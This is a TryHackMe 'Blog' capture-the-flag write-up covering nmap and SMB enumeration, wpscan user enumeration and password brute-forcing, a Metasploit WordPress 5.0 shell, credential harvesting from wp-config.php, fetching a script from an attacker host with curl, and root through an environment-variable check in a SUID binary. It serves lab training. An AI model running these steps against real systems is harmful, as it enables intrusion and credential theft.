



# Blog
## Writeup TryHackMe
### Medium Machine by NamelessOne

## Nmap Scan

The Nmap `nmap -sC -sV IP` has revealed four services
1. 22  - SSH 7.6p1
2. 80  - Apache 2.4.29 
3. 139 - Samba
4. 445 - Samba

### Host file
The instructions for the machine let us know we should add "blog.thm" to our hosts file and the ip address in my case it was
`echo -n "10.10.140.27    blog.thm" >> /etc/hosts`

## Service Enum
### SMB
An anonymous listing of SMB is revealed by 
`smbclient -L //blog.thm`

Immediately the "BillySMB" is interest to us and luckily is anonymously accessible

Although, all of these files seem to be rabbit holes.  Which explains the alice in wonderland reference.  The "Check-this.png" file however was a QR code which leads to a Billy Joel song.

### HTTP

The http site is a wordpress site!

Which includes a lovely note from his mom.  An easy way to enumerate wordpress is wpscan.

#### Wpscan 
`wpscan --url http://blog.thm --enumerate u`

The most interesting details of our WPSCAN are as follows
- The wordpress version is 5.0, an outdated version
- Upload directory allows listing
- Wordpress users revealed
	- kwheel
	- bjoel

#### bruteforcing with Wpscan
`wpscan --url http://blog.thm --usernames kwheel --passwords path/to/passwords.txt threads 20`

Creds 
- **kwheel:cutepie1**

It appears these creds dont work for ssh sadly...

 
After logging in to wordpress using the credentials revealed by wpscan 

It appears we are only allowed to create new posts with our editor permission, so we cannot edit the themes php code and engage a php rev shell.  We have to get more creative.

### Exploitation
#### Searchsploit
`searchsploit wordpress 5.0.0`

We have some luck!!
I have tried the **python exploit** with no luck, I took the L and moved to metasploit

#### Metasploit
After setting the required options and running the exploit we have a shell!!

Lets type 
`python3 -c 'import pty;pty.spawn("/bin/bash")'`

OK our shell is upgraded, lets start trying to up our privilege

### Privilege Escalation

At once, I try to access the wp-config.php file located in the wordpress home directroy.  It may contain credentials.

`cat /var/www/wordpress/wp-config.php`

And voila!  The SQL details

**The loot**

#### hashcat
`hashcat -m 400 -a 0 hashes ~/path/to/wordlist.txt -O -w3`

Although this already revealed something we already knew...moving on

#### SUID3NUM
A wonderful tool I've been utilizing is SUID3NUM which analyzes existing SUID and GUID binaries so operators can take the quickets path to root

##### Execution
to transfer
attacker machine:
`python3 -m http.server 80`

victim machine:
`curl http://attackerIP:80/suid3num.py -o s.py`

execute:
`python3 s.py`

#### /usr/sbin/checker custom SUID binary

Intial execution of binary:
`/usr/sbin/checker`

Well this is interesting, I guess we are not an admin but now its out job to prove we are
Lets do some analysis on the binary itself
- strings /usr/sbin/checker
- strace /usr/sbin/checker
- ltrace /usr/sbin/checker

Well we see a call to getenv...**ltrace** revealed something even more telling

Lets go! We see the call to getenv() although this time we see the environmetal variable its trying to access.

#### SUID Exploit with environmental variable 

Lets guess the variable admin should be set to Admin
`export admin=Admin`

And...this allowed us to get root!

